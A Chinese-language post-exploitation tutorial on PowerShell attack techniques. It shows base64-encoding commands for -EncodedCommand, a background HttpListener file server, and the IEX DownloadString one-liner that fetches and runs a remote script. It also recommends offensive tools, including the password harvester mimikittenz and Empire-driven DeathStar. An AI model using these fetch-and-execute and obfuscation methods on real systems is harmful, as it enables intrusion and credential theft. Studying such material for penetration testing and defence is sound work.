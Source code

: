 # Powershell(12)-实例使用场景

> 本篇为Powershell攻击指南——黑客后渗透之道系列之实战篇，主要介绍的一些实用的利用方式与利用场景和一些实用工具。

在实际的渗透环境中我们利用Powershell的方式无非两种：

1. 使用编码的方式对Powershell命令进行编码之后运行
2. 远程下载Powershell代码之后直接运行

两种方式各有利弊，第一种比较方便直接编码即可执行，第二种需要到一台拥有公网IP的机器，那么在实际的渗透环境中如何选择就得看具体场景了。下面看看两种实例：

## 通过编码的方式执行
我们做一个最简单的例子:

使用编码的方式执行`whoami`命令，我们首先使用下面的命令来进行编码

```powershell
$command = "whoami" 
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
$encodedCommand = [Convert]::ToBase64String($bytes) 
echo $encodedCommand
```
这串代码执行完之后就会打印出编码结果，之后直接执行即可`powershell.exe -EncodedCommand $encodedCommand
`

完整过程如下:
![](./img/op/1.png)
## 搭建小型HTTP服务器
> Powershell搭建HTTP服务器在真实的渗透环境中使用率是较高的，比如说我们需要直接的Get一个文件而使用SMB或者FTP是不推荐的，动静太大也较难搭建，而使用HTTP则没有这样的困难，也可以搭建在内网使用Powershell脚本的服务器。
> 
> 那么很多人会说Python就好了啊，`-m SimpleHTTPServer`就好了，但是对于Windows操作系统并没有那么的Python环境供你使用，我们需要的是最少的操作做最多的事情，利用Windows自带的软件或文件是我们的最佳选择，所以Powershell是我们的不二之选


### HTTPListener-API
那么搭建HTTP服务器也是调用了API，使用到了.Net的API---HttpListener，我们只需要像这样调用`New-Object Net.HttpListener`那么我们就可以得到一个.Net对象，下面我们直接看看代码：

```powershell
# This script will execute in background
start-job { 
    $p="c:\temp\"
    # $p = Get-Location 可以获取当前用户的目录，如果这样使用后面的$p改为$p.path
    $H=New-Object Net.HttpListener
    $H.Prefixes.Add("http://+:8889/")
    $H.Start()
    While ($H.IsListening) {
        $HC=$H.GetContext()
        $HR=$HC.Response
        $HR.Headers.Add("Content-Type","text/plain")

        $file=Join-Path $p ($HC.Request).RawUrl
        $text=[IO.File]::ReadAllText($file)
        $text=[Text.Encoding]::UTF8.GetBytes($text)
        
        $HR.ContentLength64 = $text.Length
        $HR.OutputStream.Write($text,0,$text.Length)
        $HR.Close()
    }
    $H.Stop()
}
```

那么代码也不长，直接运行就能在后台运行，Powershell会返回一个任务ID
![](./img/http/1.png)

如果我们需要停止这个HTTP，只需要Stop即可：
![](./img/http/2.png)

那么我们只需要修改我们的目录即可对相应的目录进行访问与下载，非常方便。

### 远程加载执行

直接看看命令:
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/httptest.ps1');"`

我们只需要在本地开一个Web服务，那么这就很好开了：通过Python或者其他的方式都可以，自己的机器怎么修改都可以。之后通过上面的命令下载你的脚本即可，这样就可以下载并执行了。那么还可以和上面编码的方式并用，就能更好的执行了。

### 实例工具

下面推荐一些比较好的工具，类似Powersploit或者nishang有的内容就不提及了，就提几个经常使用的工具。

#### mimikittenz
第一个是[mimikittenz](https://github.com/putterpanda/mimikittenz)这个脚本能够获取到用户级的密码，比如Deopbox，jira，Gmail等等，对于真实的渗透环境来说，需求还是挺大的，下面是这个脚本提供的运行截图。

![](./img/op/2.png)

#### BloodHound
[链接](https://github.com/BloodHoundAD/BloodHound)
中文名猎犬，先说说能干嘛吧：内网信息域内关系与细节整理，这个工具也是作为DEFCON 24的免费开源工具发布，主要使用了图论的一些知识，推荐学习。

#### DeathStar
[链接](https://github.com/byt3bl33d3r/DeathStar)
中文名死星，一看名字就知道是个StarWar迷:)，也能看出他的威力效果，下面是官方一张gif使用效果
![](./img/op/3.gif)

这款工具需要配合Empire的API，下面[链接](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html)是作者的教程，大家可以自行研究。


### 开发工具
工欲善其事，必先利其器。这里提一下Ps的开发工具供大家选择。

#### ISE
那么最基础的是Ps的ISE，这个工具是自带的，通过下面的方式打开
![](./img/op/4.png)

打开的界面如下：
![](./img/op/5.png)
语法高亮，外加一个便于复制和粘贴操作的图形化控制台，可以说是非常的方便。

#### PowerShell Studio & Visual Studio

但如果你是一个需要更专业的开发环境，这款工具肯定能帮到你，官网在[这里](https://www.sapien.com/software/powershell_studio)，简单看看他的一张截图:
![](./img/op/6.png)

可以看到软件是非常专业的，非常的方便编写与管理你的代码。

[Visual Studio](https://marketplace.visualstudio.com/items?itemName=AdamRDriscoll.PowerShellToolsforVisualStudio2015)同意也能达到这样的效果，那么大家可以自行选择。



